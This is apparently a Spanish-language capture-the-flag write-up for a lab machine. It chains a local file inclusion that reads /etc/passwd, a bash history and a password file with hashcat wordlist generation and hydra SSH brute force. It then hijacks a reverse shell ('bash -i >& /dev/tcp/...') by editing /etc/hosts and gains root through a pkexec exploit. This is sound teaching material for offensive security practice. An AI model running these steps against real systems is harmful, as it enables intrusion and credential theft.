 
## Nmap 
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[webatlanta.png | 900]]

Directamente en la web vemos esto: ``http://10.10.228.16/index.php?page=home.html``
## Local File Inclusion

[Example](https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb)
Podemos ver el contenido del archivo ``.php`` de la pagina.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=index.php"
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

aprovechamos para ver el ``/etc/passwd``
```python
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

```

Miramos el ``.bash_history`` para ver el historial de comandos ejecutados.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.bash_history"
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

Veo algunos comandos, esta creando una listas de passwords con el contenido de el archivo ``.reminder`` y lo guarda en un ``passlist.txt``

El archivo ``.reminder`` contiene esto:
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.reminder"
sup3r_p@s$w0rd!
```

Voy a crear una lista de passwords al igual que se hizo en la maquina:
```bash
❯ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
❯ ls
passlist.txt
```

Fuerza Bruta con ``hydra``
```bash
❯ hydra -l blue -P passlist.txt ssh://10.10.139.248
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-24 15:59:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.139.248:22/
[22][ssh] host: 10.10.139.248   login: blue   password: sup3r_p@s$w0!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-24 16:00:12
```

Al ejecutar pspy, podemos ver este proceso ejecutándose: 
```bash
2023/10/24 20:08:55 CMD: UID=1001  PID=14911  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```

Se manda una revShell a el dominio ``redrules.thm``, vamos a ver a que apunta esto en el ``etc/hosts``:
```bash
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

El dominio no apunta a ningún lado, pero podemos modificar el archivo ``etc/hosts`` porque tenemos permisos:
```bash
blue@red:~$ ls -la /etc/ | grep hosts
-rw-r--rw-   1 root adm         242 Oct 24 20:12 hosts
```

```bash
echo "10.8.189.249 redrules.thm" >> /etc/hosts
```

### Escalada de Priv

Buscamos Binarios con permisos ``SUID``
```bash
find / -type f -perm -04000 -ls 2>/dev/null

418507     32 -rwsr-xr-x   1 root     root        31032 Aug 14  2022 /home/red/.git/pkexec
```

[Exploit para elevar priv](https://github.com/Almorabea/pkexec-exploit/tree/main)

Modificamos la linea:
```bash
libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
```

Ponemos la ruta de pkexec. 

Ya somos ROOT

